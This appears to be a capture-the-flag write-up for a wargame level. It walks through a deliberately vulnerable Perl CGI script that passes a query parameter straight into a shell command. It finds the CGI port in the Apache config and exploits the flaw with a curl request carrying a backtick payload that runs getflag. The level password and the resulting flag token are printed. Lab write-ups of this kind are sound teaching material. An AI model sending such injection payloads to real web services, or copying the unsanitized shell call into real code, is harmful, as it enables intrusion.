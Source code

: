 `su level04 -> qi0maab88jeaj46qoumi7maus`

We have a file named **level04.pl** which contains:

```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

It's a CGI script who take a query string argument named x and run echo with this value.
This script is already in **/var/www/** which is the root of apache (port 80).
Its owner is **flag04**.

```
$ ls -la /var/www/level04
-r-xr-x---+ 1 flag04 level04 152 Jan 30 10:36 level04.pl
```

We can try to run the CGI:

```
$ curl localhost/level04/level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

The CGI is not executed, this server is not configured to run CGI.
Check the config files of apache and we can find where cgi are handle:

```
$ cat /etc/apache2/sites-available/level05.conf
<VirtualHost *:4747>
        DocumentRoot    /var/www/level04/
        SuexecUserGroup flag04 level04
        <Directory /var/www/level04>
                Options +ExecCGI
                DirectoryIndex level04.pl
                AllowOverride None
                Order allow,deny
                Allow from all
                AddHandler cgi-script .pl
        </Directory>
</VirtualHost>
```

We can try to use the port 4747.

```bash
$ curl localhost:4747

```

We got a newline so we can deduce that the CGI is executed.
Lets try with a query string who set x.

```bash
$ curl localhost:4747/?x=hello
hello
```

Its working like expected so we can try to inject some code.

```bash
$ curl localhost:4747/?x="\`/bin/getflag\`"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
